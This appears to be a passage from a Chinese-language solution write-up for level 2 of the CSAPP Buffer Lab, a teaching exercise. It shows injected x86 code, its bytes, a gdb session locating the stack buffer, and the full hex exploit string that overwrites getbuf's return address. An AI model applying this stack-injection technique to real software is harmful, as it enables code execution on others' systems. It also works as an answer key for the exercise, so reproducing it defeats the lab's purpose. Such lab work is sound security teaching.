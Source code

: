 构造的汇编如下

```x86asm
movl $0x1005b2b7,0x804d100
ret
```

`gcc -c -m32` `objdump`得到的字节码如下

```txt
level2.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:   c7 05 00 d1 04 08 b7    movl   $0x1005b2b7,0x804d100
   7:   b2 05 10
   a:   c3                      ret
```

通过打断点的方式得到下方的栈指针的值为 `0x55683588`

```bash
(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x080491f4 <+0>:     push   %ebp
   0x080491f5 <+1>:     mov    %esp,%ebp
   0x080491f7 <+3>:     sub    $0x38,%esp
   0x080491fa <+6>:     lea    -0x28(%ebp),%eax
   0x080491fd <+9>:     mov    %eax,(%esp)
   0x08049200 <+12>:    call   0x8048cfa <Gets>
   0x08049205 <+17>:    mov    $0x1,%eax
   0x0804920a <+22>:    leave
   0x0804920b <+23>:    ret
End of assembler dump.
(gdb) b *0x080491fd
Breakpoint 1 at 0x80491fd
(gdb) r -u bovik
Starting program: /root/csapp/04Buffer Lab (IA32)/buflab-handout/bufbomb -u bovik
Userid: bovik
Cookie: 0x1005b2b7

Breakpoint 1, 0x080491fd in getbuf ()
(gdb) info r eax
eax            0x55683588       1432892808
```

然后得到bang的地址为 `0x08048c9d`,所以本题答案如下

```txt
c7 05 00 d1 04 08 b7 b2 05 10
c3 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00
88 35 68 55
9d 8c 04 08
```
